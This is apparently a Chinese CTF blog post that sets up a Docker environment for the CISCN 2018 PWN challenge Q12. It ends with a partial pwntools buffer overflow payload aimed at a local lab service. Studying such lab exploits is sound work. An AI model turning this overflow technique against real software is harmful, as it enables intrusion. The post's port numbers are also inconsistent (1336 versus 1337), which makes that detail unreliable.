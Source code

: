 ```yaml
---
title: 'CISCN 2018 华中赛区 Q12'
date: 2018-06-07 20:43:15
tags:
    - CTF
    - PWN
categories:
    - 'Write Up'
---
```


第一次在CTF比赛中尝试解PWN题，先把PWN题的环境放上来，本次虚拟机环境情况为 Ubuntu 18.04 LTS，使用docker配置环境，后续会把整个题解出来

<!--more-->
## CTF环境Docker复现

本次复现使用 Docker 复现，保证环境可以正常运行，环境Docker原始文件下载：[ciscn-q12](ciscn-center-zone-q12/ciscn-12-docker.zip)

###  步骤1：安装Docker

本次虚拟机环境情况为 Ubuntu 18.04 LTS，安装docker和docker-compose

```bash
sudo apt-get install docker docker-compose
```

![](ciscn-center-zone-q12/1.png)

###  步骤2：运行Docker服务

```bash
sudo service docker start
```
![](ciscn-ce
nter-zone-q12/2.png)

## 步骤3：构建Docker环境

我们下载好Docker的环境：[ciscn-q12](ciscn-center-zone-q12/ciscn-12-docker.zip) 然后解压到环境根目录，打开终端，运行命令：

```bash
sudo docker build -t pwn12 .
```

![](ciscn-center-zone-q12/3.png)

## 步骤4：运行Docker环境

构建完成docker镜像后，运行环境，使用`docker ps`查看运行情况

```bash
sudo docker run -d -p 1336:1336 pwn12
sudo docker ps
```

![](ciscn-center-zone-q12/4.png)

从上图可以看到，我们的docker已经在监听 1337 号端口了。

## 步骤5：运行不完全的Payload

在比赛的时候我写了一个不完整的payload,只能加载部分的flag,为了验证环境是否安装完成，测试下

```python
from pwn import *
sh = remote('127.0.0.1',1337)
target = 0x61616161
sh.sendline('A'*(0X1C+8)+p32(target))
sh.interactive()
```

![](ciscn-center-zone-q12/5.png)

从图可以看到我们读取了部分Flag

> 根据出题人的意思，应该到这步就可以了的，但是由于未考虑到环境的FLAG长度，所以使本题目由签到题变成了入门题
